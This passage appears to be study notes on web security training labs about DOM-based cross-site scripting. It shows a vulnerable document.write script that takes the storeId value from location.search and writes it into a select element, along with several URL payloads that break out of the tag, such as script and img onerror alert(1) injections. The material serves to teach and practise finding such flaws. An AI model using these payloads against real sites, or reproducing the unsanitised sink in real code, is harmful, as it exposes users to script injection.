 ```
<script>
...
<img src="/resources/images/tracker.gif?searchTerms=123456789">
...
</script>
```

**Search ->**

```
"><svg onload=alert(1)>
```

### Lab: DOM XSS in document.write sink using source location.search inside a select element

This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search which you can control using the website URL. The data is enclosed within a select element.

```
<script>
	var stores = ["London","Paris","Milan"];
	var store = (new URLSearchParams(window.location.search)).get('storeId');
	document.write('<select name="storeId">');
	if(store) {
		document.write('<option selected>'+store+'</option>');
	}
	for(var i=0;i<stores.length;i++) {
		if(stores[i] === store) {
			continue;
		}
		document.write('<option>'+stores[i]+'</option>');
	}
	document.write('</select>');
</script>
```

```
/product?productId=1&storeId=London"><script>alert(1)</script>"
London">"

/product?productId=1&storeId=Milan"><script>alert(1)</script>"
Milan">"

product?productId=1&storeId="><img src=1 onerror=alert(1)>
```

### Lab: DOM XSS in innerHTML sink using source location.search

This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.
